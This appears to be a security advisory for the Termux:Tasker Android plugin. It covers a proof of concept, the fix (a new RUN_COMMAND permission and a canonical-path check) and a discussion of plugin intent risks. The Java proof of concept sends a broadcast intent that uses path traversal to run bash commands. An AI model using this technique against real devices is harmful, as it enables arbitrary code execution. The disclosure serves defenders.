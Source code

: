 ### 1. Proof Of Concept

```java
Intent intent = new Intent("com.twofortyfouram.locale.intent.action.FIRE_SETTING");
intent.setClassName("com.termux.tasker", "com.termux.tasker.FireReceiver");

Bundle bundle = new Bundle();
bundle.putString("com.termux.tasker.extra.EXECUTABLE", "../../../usr/bin/bash");
bundle.putString("com.termux.execute.arguments", "-c \"echo -n 'I am '; whoami; echo 'creating exploit-file'; touch exploit-file; echo 'finding exploit-file'; find . -name exploit-file 2>/dev/null; sleep 5;\"");
bundle.putBoolean("com.termux.tasker.extra.TERMINAL", true);
bundle.putInt("com.termux.tasker.extra.VERSION_CODE", 4);

intent.putExtra("com.twofortyfouram.locale.intent.extra.BUNDLE", bundle);
context.sendBroadcast(intent);
```

### 1. Fix

1. To send an intent to `FireReceiver` now [requires `com.termux.permission.RUN_COMMAND`](https://github.com/termux/termux-tasker/blob/v0.5/app/src/main/AndroidManifest.xml#L45), a `dangerous` runtime permission, to be granted to the calling app, which was [published by Termux app](https://github.com/termux/termux-app/blob/v0.118.0/app/src/main/AndroidManifest.xml#L16). The Tasker app already had requested the permission since `v5.9.3` for [`RUN_COMMAND` intent](https://github.com/termux/termux-app/wiki/RUN_COMMAND-Intent) before the `v0.5` release but other automation apps would have had to request the permission in later versions. ([`26da42f7`](https://github.com/termux/termux-tasker/commit/26da42f7))

2. The canonical path of the executable received by `FireReceiver` was [found](https://github.com/termux/termux-tasker/blob/v0.5/app/src/main/java/com/termux/tasker/FireReceiver.java#L70) before it was processed. The `v0.5` release officially added support to allow executables outside the `~/.termux/tasker` directory, but only if user had explicitly added `allow-external-apps=true` to `~/.termux/termux.properties`. ([`a5af3db3`](https://github.com/termux/termux-tasker/commit/a5af3db3))

This dual permission model enforced by android os permission and an app setting for absolute paths provides reasonable security against any arbitrary code execution or privilege escalation unless users grant the permission to untrusted apps.

Check `Termux:Tasker` [`README`](https://github.com/termux/termux-tasker#setup-instructions) for more details on new design.

### 1. Discussion

This kind of vulnerability partly existed because **any app can send intents to plugin apps** of automation apps like `Tasker`. The `Tasker` app and the [`locale`](https://github.com/twofortyfouram/android-monorepo) plugin protocol library it uses were created around `2008`. At that time runtime permissions didn't exist and security and possible dangerous uses of plugins may not have been a top priority/concern. However, it is indeed especially concerning for plugin apps that are granted privileged permissions like device /owner and accessibility services or even storage, location, etc. For example the [`SecureTask`](https://play.google.com/store/apps/details?id=com.balda.securetask) plugin needs to be set as device admin or even owner for a lot of its features. If a user has installed the app on their phone and have granted the device admin permission to `SecureTask`, any app could send intents to it directly without going through Tasker to run privileged commands, including **wiping the device**.
